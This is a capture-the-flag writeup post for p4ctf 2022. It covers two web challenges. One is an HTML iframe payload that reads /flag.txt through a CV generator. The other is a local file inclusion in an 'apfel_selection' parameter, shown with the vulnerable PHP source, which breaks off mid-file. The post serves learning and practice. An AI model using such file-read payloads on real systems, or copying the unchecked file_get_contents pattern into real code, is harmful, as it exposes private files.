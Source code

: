 ```yaml
---
layout: post
title:  "p4ctf 2022 Writeup Collection"
author: "p4"
date:   2022-11-06 00:00:00 +0000
categories: ctf p4ctf web
description: "really cool ctf"
---
```


*[CTFTime event](https://ctftime.org/event/1793)*

This was both my first time taking part in a CTF organised by p4 and my first solo CTF in a while, and I placed [5th](https://ctf.p4.team/scoreboard)! The challenges were pretty solid, so here are my writeups. Please enjoy!

---  

# Web

## Cvg3n3rat0r [74]

> Ever wanted to get hired by your favourite E-corp? Generate your brand new CV and get hired every time.
> BTW, have you ever heard the joke about putting your resume on the bosses computer? While that's probably a bad idea, grabbing the flag from /flag.txt most definitely isn't!
> Now with W3schools support!

```html
<iframe src="file:///flag.txt"></iframe>
```

"writeup"

---

## Apfel Seite [9]

> This challenge was fuelled by C17H21NO4 and insomnia. I'm sorry.

The challenge immediately presents us with a blatant LFI vulnerability; clicking one of the links on the navbar navigates you to `http://apfel-seite.zajebistyc.tf/?apfel_selection=apfels/rotten/description.txt` for example, where `apfel_selection` is the vulnerable parameter. From here, we can get the index.php source code with `?apfel_selection=index.php`:

```php
<?php
if (isset($_GET["apfel_selection"]) && file_exists($_GET["apfel_selection"])) {
  if (strpos($_GET["apfel_selection"], "..") !== false) {
    echo "<h1><b1>SIR👀 THIS IS AN APFEL🍎🍎 STORE💲 PLEASE DO NOT 😔HACK😔 US 🙏🙏</h1></b1>";
  } else {
    echo file_get_contents($_GET["apfel_selection"]);
  }
} else {
  $jokes = array(
    "What kind of apple isn’t an apple?<br><b>A pineapple.</b>",
    "What do you call a person who saw an apple store getting robbed?<br><b>An iWitness.</b>",
    "Why did the apple turn red?<br><b>Because it saw the salad dressing.</b>",
    "What’s the best thing to put into an apple pie?<br><b>Your teeth.</b>",
    "What is a math teacher’s favourite dessert?<br><b>Apple Pi.</b>",
    "Why don’t robots like Apples?<br><b>Because They’re androids!</b>",
    "What happened to the newly wedded apples?<br><b>They lived apple-ly ever after</b>"
  );
  echo $jokes[array_rand($jokes)];
  echo "😂🤣";
```